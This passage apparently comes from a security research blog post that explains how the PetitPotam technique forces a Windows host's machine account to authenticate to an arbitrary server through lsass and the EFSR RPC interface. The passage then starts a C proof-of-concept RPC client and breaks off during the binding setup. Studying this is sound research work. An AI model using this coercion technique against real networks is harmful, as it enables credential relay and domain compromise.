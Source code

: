 ![](/assets/posts/2021-09-02-from-rpcview-to-petitpotam/23_procmon-createfile-details.png)

What's interesting though is what happens before `lsass.exe` tries to access the target file. Indeed, it opens the named pipe `\pipe\srvsvc`, this time without impersonating the client. If you saw my post about [PrintSpoofer](/printspoofer-abusing-impersonate-privileges/), you know that a similar behavior was observed with the Print Spooler server, which tried to open the named pipe `\pipe\spoolss`.

![](/assets/posts/2021-09-02-from-rpcview-to-petitpotam/24_procmon-createfile-pipe.png)

Of course, the `NT AUTHORITY\SYSTEM` account cannot be used for network authentication. So, when invoking this procedure with a remote path on a domain-joined machine, Windows will actually use the machine account to authenticate on the remote server. This explains why "PetitPotam" is able to coerce an arbitrary Windows host to authenticate to another machine.

And here is the final code.

```c
#include "efsr_h.h"
#include <iostream>
#include <strsafe.h>

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
    RPC_STATUS status;
    RPC_WSTR StringBinding;
    RPC_BINDING_HANDLE Binding;

    status = RpcStringBindingCompose(
        NULL,                       // Interface's GUID, will be handled by NdrClientCall
        (RPC_WSTR)L"ncacn_np",      // Protocol sequence
```